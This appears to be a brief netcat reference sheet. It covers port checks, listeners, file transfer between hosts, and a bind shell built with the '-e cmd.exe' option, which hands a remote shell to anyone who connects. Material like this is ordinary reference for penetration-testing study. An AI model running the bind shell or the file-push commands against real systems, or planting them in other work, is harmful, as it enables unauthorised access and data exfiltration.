 # Netcat

Check if a TCP port is open :&#x20;

```
nc -nv <ip> <port>
```

* \-n : Skip DNS name resolution
* \-v : Add some verbosity

Listening on a TCP/UDP port

```
nc -nlvp <port>
```

* \-n : Skip DNS name resolution
* \-l : Create a listener
* \-v : Add some verbosity
* \-p : Specify the listening port number

Transferring Files

1 - Set up a Netcat listener on a port and redirect any output into a file

```
nc -nlvp <port> > file.txt
```

2 - Push the file through the TCP port

```
nc -nv <ip> <port> < /tmp/file_to_transfert.txt
```

Bind shell

1 - Set up a Netcat listener on a port&#x20;

```
nc -nlvp <port> -e cmd.exe
```

* \-e : Executes a program after making or receiving a successful connection

2 - Connect to the TCP port

```
nc -nv <ip> <port>
```
